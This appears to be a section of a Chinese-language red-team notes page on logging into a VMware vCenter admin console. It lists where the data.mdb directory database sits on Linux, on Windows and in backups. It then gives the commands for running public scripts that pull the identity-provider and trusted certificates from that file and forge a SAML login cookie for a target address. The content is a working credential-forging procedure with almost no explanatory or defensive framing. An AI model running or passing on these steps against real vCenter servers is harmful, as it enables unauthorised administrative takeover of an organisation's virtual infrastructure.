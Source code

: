 # 0x05 登陆 vcenter 后台

## 获取cookie

data.mdb文件位置：

```
Linux：
/storage/db/vmware-vmdir/data.mdb
/storage/db/vmware-vmdir/snapshot/data.mdb

Windows：
C:\ProgramData\VMware\vCenterServer\data\vmdird\data.mdb

vCenter备份文件 lotus_backup.tar.gz 中也保存有data.mdb
```

ps. 如果为外网 vcenter 点，访问 http://ip/ui 可以让其跳转

### 服务器上提取

https://github.com/3gstudent/Homework-of-Python/

data.mdb 过大，减少交互流量

上传 [vCenter_ExtraCertFromMdb.py](https://github.com/Whoopsunix/whoopsunix.github.io/blob/main/docs/readTeam/vcenter/be/vCenter_ExtraCertFromMdb.py ':ignore') 到服务器得到几个参数

```
python vCenter_ExtraCertFromMdb.py /storage/db/vmware-vmdir/data.mdb

domain，在命令行显示
idp_cert，保存为idp_cert.txt
trusted_cert_1，保存为trusted_cert_1.txt
trusted_cert_2，保存为trusted_cert_2.txt
```

运行 [vCenter_GenerateLoginCookie.py](https://github.com/Whoopsunix/whoopsunix.github.io/blob/main/docs/readTeam/vcenter/be/vCenter_GenerateLoginCookie.py ':ignore') 获取 Cookie

```
python3.8 vCenter_GenerateLoginCookie.py 192.168.100.3 192.168.100.3 vsphere.local idp_cert.txt trusted_cert_1.txt trusted_cert_2.txt
```

### 本地提取

https://github.com/horizon3ai/vcenter_saml_login/blob/main/vcenter_saml_login.py

[vcenter_saml_login.py](https://github.com/Whoopsunix/whoopsunix.github.io/blob/main/docs/readTeam/vcenter/be/vcenter_saml_login.py ':ignore')

```
python3.8 vcenter_saml_login.py -t 192.168.100.3 -p data.mdb
```
